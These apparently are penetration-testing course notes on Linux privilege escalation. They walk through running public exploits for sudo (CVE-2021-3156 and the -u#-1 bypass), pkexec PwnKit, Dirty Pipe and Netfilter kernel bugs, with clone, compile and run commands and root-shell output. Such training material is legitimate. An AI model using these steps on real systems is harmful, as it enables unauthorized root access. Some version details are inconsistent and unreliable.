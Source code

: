 # 🏃‍♂️ Recent 0-Days

## Sudo

&#x20;The `/etc/sudoers` file specifies which users or groups are allowed to run specific programs and with what privileges

```shell-session
cry0l1t3@nix02:~$ sudo cat /etc/sudoers | grep -v "#" | sed -r '/^\s*$/d'
```

One of the latest vulnerabilities for `sudo` carries the CVE-2021-3156 and is based on a heap-based buffer overflow vulnerability. This affected the sudo versions:

* 1.8.31 - Ubuntu 20.04
* 1.8.27 - Debian 10
* 1.9.2 - Fedora 33
* and others

To have te sudo version ->

```shell-session
sudo -V | head -n1
```

To test this out ->

```shell-session
cry0l1t3@nix02:~$ git clone https://github.com/blasty/CVE-2021-3156.git
cry0l1t3@nix02:~$ cd CVE-2021-3156
cry0l1t3@nix02:~$ make

#with the help command ->
  available targets:
  ------------------------------------------------------------
    0) Ubuntu 18.04.5 (Bionic Beaver) - sudo 1.8.21, libc-2.27
    1) Ubuntu 20.04.1 (Focal Fossa) - sudo 1.8.31, libc-2.31
    2) Debian 10.0 (Buster) - sudo 1.8.27, libc-2.28
  ------------------------------------------------------------
```

find out which version of the operating system we are dealing with

```shell-session
cry0l1t3@nix02:~$ cat /etc/lsb-release

DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=20.04
```

Now we specify the respective ID for the version operating system

```shell-session
cry0l1t3@nix02:~$ ./sudo-hax-me-a-sandwich 1
```

### Sudo Policy Bypass

Another vulnerability was found in 2019 that affected all versions below `1.8.28`, which allowed privileges to escalate even with a simple command. there is a prerequisite. It had to allow a user in the `/etc/sudoers` file to execute a specific command.

```shell-session
cry0l1t3@nix02:~$ sudo -l
[sudo] password for cry0l1t3: **********

User cry0l1t3 may run the following commands on Penny:
    ALL=(ALL) /usr/bin/id
```

`Sudo` also allows commands with specific user IDs to be executed, which executes the command with the user's privileges carrying the specified ID. The ID of the specific user can be read from the `/etc/passwd` file.

```shell-session
cry0l1t3@nix02:~$ cat /etc/passwd | grep cry0l1t3
cry0l1t3:x:1005:1005:cry0l1t3,,,:/home/cr    y0l1t3:/bin/bash
```

Thus the ID for the user `cry0l1t3` would be `1005`. If a negative ID (`-1`) is entered at `sudo`, this results in processing the ID `0`, which only the `root` has.

```shell-session
cry0l1t3@nix02:~$ sudo -u#-1 id
root@nix02:/home/cry0l1t3#
```

## Polkit

PolicyKit (`polkit`) is an authorization service on Linux-based operating systems that allows user software and system components to communicate with each other if the user software is authorized to do so

Polkit works with two groups of files.

1. actions/policies (`/usr/share/polkit-1/actions`)
2. rules (`/usr/share/polkit-1/rules.d`)

Custom rules can be placed in the directory `/etc/polkit-1/localauthority/50-local.d` with the file extension `.pkla`.

PolKit also comes with three additional programs:

* `pkexec` - runs a program with the rights of another user or with root rights
* `pkaction` - can be used to display actions
* `pkcheck` - this can be used to check if a process is authorized for a specific action

`pkexec` performs the same task as `sudo` and can run a program with the rights of another user or root.

```shell-session
cry0l1t3@nix02:~$ # pkexec -u <user> <command>
cry0l1t3@nix02:~$ pkexec -u root id
```

To use the  memory corruption vulnerability with the identifier [CVE-2021-4034](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-4034)

```shell-session
cry0l1t3@nix02:~$ git clone https://github.com/arthepsy/CVE-2021-4034.git
cry0l1t3@nix02:~$ cd CVE-2021-4034
cry0l1t3@nix02:~$ gcc cve-2021-4034-poc.c -o poc
```

```shell-session
cry0l1t3@nix02:~$ ./poc
# id
uid=0(root) gid=0(root) groups=0(root)
```

## Dirty Pipe

[Dirty Pipe](https://dirtypipe.cm4all.com/) ([CVE-2022-0847](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-0847)), allows unauthorized writing to root user files on Linux. All kernels from version `5.8` to `5.17` are affected and vulnerable

this vulnerability allows a user to write to arbitrary files as long as he has read access to these files.

To exploit this vulnerability, we need to download a [PoC](https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits) and compile it on the target system itself or a copy we have made.

```shell-session
cry0l1t3@nix02:~$ git clone https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits.git
cry0l1t3@nix02:~$ cd CVE-2022-0847-DirtyPipe-Exploits
cry0l1t3@nix02:~$ bash compile.sh
```

There are  two different exploits available. The first exploit version (`exploit-1`) modifies the `/etc/passwd` and gives us a prompt with root privileges. We need to verify kernel version ->&#x20;

```shell-session
cry0l1t3@nix02:~$ uname -r
5.13.0-46-generic
```

```shell-session
cry0l1t3@nix02:~$ ./exploit-1
<SNIP>
id
uid=0(root) gid=0(root) groups=0(root)
```

And with  (`exploit-2`), we can execute SUID binaries with root privileges. However, before we can do that, we first need to find these SUID binaries.

```shell-session
cry0l1t3@nix02:~$ find / -perm -4000 2>/dev/null
```

Then we can choose a binary and specify the full path of the binary as an argument for the exploit and execute it.

```shell-session
cry0l1t3@nix02:~$ ./exploit-2 /usr/bin/sudo
# id
uid=0(root)
```

## Netfilter

`Netfilter` is a Linux kernel module that provides, among other things, packet filtering, network address translation, and other tools relevant to firewalls. It controls and regulates network traffic by manipulating individual packets based on their characteristics and rules.

When the module is activated, all IP packets are checked by the `Netfilter` before they are forwarded to the target application of the own or remote system. In 2021 ([CVE-2021-22555](https://github.com/google/security-research/tree/master/pocs/linux/cve-2021-22555)), 2022 ([CVE-2022-1015](https://github.com/pqlx/CVE-2022-1015)), and also in 2023 ([CVE-2023-32233](https://github.com/Liuk3r/CVE-2023-32233)), several vulnerabilities were found that could lead to privilege escalation.

**CVE-2021-22555**

Vulnerable kernel versions: 2.6 - 5.11

```shell-session
cry0l1t3@ubuntu:~$ uname -r
5.10.5-051005-generic
```

```shell-session
cry0l1t3@ubuntu:~$ wget https://raw.githubusercontent.com/google/security-research/master/pocs/linux/cve-2021-22555/exploit.c
cry0l1t3@ubuntu:~$ gcc -m32 -static exploit.c -o exploit
cry0l1t3@ubuntu:~$ ./exploit
```

**CVE-2022-25636**

Linux kernel 5.4 through 5.6.10, this exploit can grant root privileges to local users due to heap out-of-bounds write.

```shell-session
cry0l1t3@ubuntu:~$ uname -r
5.13.0-051300-generic
```

{% hint style="danger" %}
However, we need to be careful with this exploit as it can corrupt the kernel
{% endhint %}

```shell-session
cry0l1t3@ubuntu:~$ git clone https://github.com/Bonfee/CVE-2022-25636.git
cry0l1t3@ubuntu:~$ cd CVE-2022-25636
cry0l1t3@ubuntu:~$ make
cry0l1t3@ubuntu:~$ ./exploit
```

**CVE-2023-32233**

This vulnerability exploits the so called `anonymous sets` in `nf_tables` by using the `Use-After-Free` vulnerability in the Linux Kernel up to version `6.3.1`

```shell-session
cry0l1t3@ubuntu:~$ git clone https://github.com/Liuk3r/CVE-2023-32233
cry0l1t3@ubuntu:~$ cd CVE-2023-32233
cry0l1t3@ubuntu:~/CVE-2023-32233$ gcc -Wall -o exploit exploit.c -lmnl -lnftnl
cry0l1t3@ubuntu:~/CVE-2023-32233$ ./exploit

```
